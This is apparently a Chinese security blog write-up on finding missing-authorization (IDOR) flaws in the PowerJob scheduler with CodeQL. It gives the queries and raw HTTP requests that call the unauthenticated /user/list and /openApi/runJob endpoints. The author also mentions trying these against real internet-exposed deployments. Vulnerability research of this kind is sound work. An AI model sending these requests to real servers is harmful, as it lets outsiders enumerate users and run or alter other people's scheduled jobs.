





# PowerJob IDOR 0Day 挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/19053  
> **文章ID**: 19053

---

项目地址：<https://github.com/PowerJob/PowerJob>  
PowerJob是一款很有名的国产分布式任务调度中间件，这里我们重点关注

### 鉴权分析

先拿codeql建个库：

```
codeql database create cq-db --language=java --command="mvn clean install -DskipTests -Drat.skip=true" --source-root=. --overwrite
```

随便抽个路由，看他是怎么鉴权的：

```
@PostMapping("/save")
    @ApiPermission(name = "Job-Save", roleScope = RoleScope.APP, requiredPermission = Permission.WRITE)
    public ResultDTO<Void> saveJobInfo(@RequestBody SaveJobInfoRequest request, HttpServletRequest hsr) {
        request.setAppId(Long.valueOf(AuthHeaderUtils.fetchAppId(hsr)));
        jobService.saveJob(request);
        return ResultDTO.success(null);
    }
```

逻辑比较清晰，接口使用了`@ApiPermission`来进行鉴权，通过`requiredPermission`字段来设定用户权限。来看一下都有哪些权限：

```
/**  
 * 不需要权限  
 */  
NONE(1),  
/**  
 * 读权限，查看控制台数据  
 */  
READ(10),  
/**  
 * 写权限，新增/修改任务等  
 */  
WRITE(20),  
/**  
 * 运维权限，比如任务的执行  
 */  
OPS(30),  
/**  
 * 超级权限  
 */  
SU(100)
```

发现他的权限比较清晰，同时相同权限之间的资源不存在隔离，因此不会有水平越权的发生。那么我们就重点去找垂直越权。

### codeql脚本编写

首先编写两个比较基本的方法：

```

predicate isController(Method m) {
    exists(Annotation a |
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "GetMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "PostMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "RequestMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "PutMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "DeleteMapping")
        | a = m.getAnAnnotation()
    )
}


predicate hasApiPermission(Method m) {
    exists(Annotation a|
        a.getType().hasQualifiedName("tech.powerjob.server.auth.interceptor", "ApiPermission")
        | a = m.getAnAnnotation()
    )
    
}

```

查找满足`isController`但是不满足`hasApiPermission`的接口。查找的时候发现把一些认证接口和测试接口包含进去了，再写一个方法嵌套去去除：

```
predicate isSpecController(Method m) {
    isController(m) and
    not m.getDeclaringType().hasName("AuthController") and
    not m.getDeclaringType().hasName("TestController")
}
```

  
效果比较理想，最终的codeql语法为：

```
/**
 * @name Controller methods missing security annotations
 * @description Finds controller methods that lack ApiPermission annotation and don't call checkJobIdValid
 * @kind problem
 * @problem.severity warning
 * @id java/controller/missing-security
 */

import java

predicate isController(Method m) {
    exists(Annotation a |
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "GetMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "PostMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "RequestMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "PutMapping") or
        a.getType().hasQualifiedName("org.springframework.web.bind.annotation", "DeleteMapping")
        | a = m.getAnAnnotation()
    )
}

predicate isSpecController(Method m) {
    isController(m) and
    not m.getDeclaringType().hasName("AuthController") and
    not m.getDeclaringType().hasName("TestController")
}

predicate hasApiPermission(Method m) {
    exists(Annotation a|
        a.getType().hasQualifiedName("tech.powerjob.server.auth.interceptor", "ApiPermission")
        | a = m.getAnAnnotation()
    )
    
}


from Method m
where isSpecController(m) and not hasApiPermission(m)
select m, "Controller method '" + m.getName() + "' is missing ApiPermission annotation and does not call checkJobIdValid"
```

### 漏洞发现

##### tech.powerjob.server.web.controller.UserInfoController#list

来看看这个方法：

```
@GetMapping("/list")
    public ResultDTO<List<UserBaseVO>> list(@RequestParam(required = false) String name) {

        List<UserInfoDO> result;
        if (StringUtils.isEmpty(name)) {
            result = userInfoRepository.findAll();
        }else {
            result = userInfoRepository.findByUsernameLike("%" + name + "%");
        }
        return ResultDTO.success(convert(result));
    }
```

用于列出所有的用户名。这个方法没有鉴权，可以任意访问，显然是不合理了，导致了攻击者可以越权枚举所有的用户名。  
构造http数据包如下：

```
GET /user/list HTTP/1.1
Host: localhost:7700
sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"
AppId: null
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: application/json, text/plain, */*
Sec-Fetch-Mode: cors
sec-ch-ua-mobile: ?0
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-Dest: empty
Referer: http://localhost:7700/
Sec-Fetch-Site: same-origin 
```

  
同时，我找了一些互联网上的资产来证明：  
  
  
咋说呢，感觉属于是比较鸡肋的越权（鸡肋越权也是越权！）

##### tech.powerjob.server.openapi.OpenAPIController

这个类属于重灾区了，底下的接口基本都没有鉴权逻辑。以`/openApi/runJob`为例进行展示：

```
 POST /openApi/runJob?jobId=1&appId=2 HTTP/1.1
Host: localhost:7700
Accept: application/json, text/plain, */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Dest: empty
Referer: http://localhost:7700/
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Sec-Fetch-Mode: cors
Accept-Language: zh-CN,zh;q=0.9
AppId: null
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"
Accept-Encoding: gzip, deflate, br, zstd
```

  
咋说呢，这些接口可以对别人设置的调度任务进行修改，危害还是挺大的吧

### 总结

内网服务在保障功能性的情况下安全性都或多或少有些欠缺吧，尤其是鉴权功能，算是审计的要点了。之前审xxl-job的时候方法也比较类似，感觉这种codeql写法也算是一种套路了。
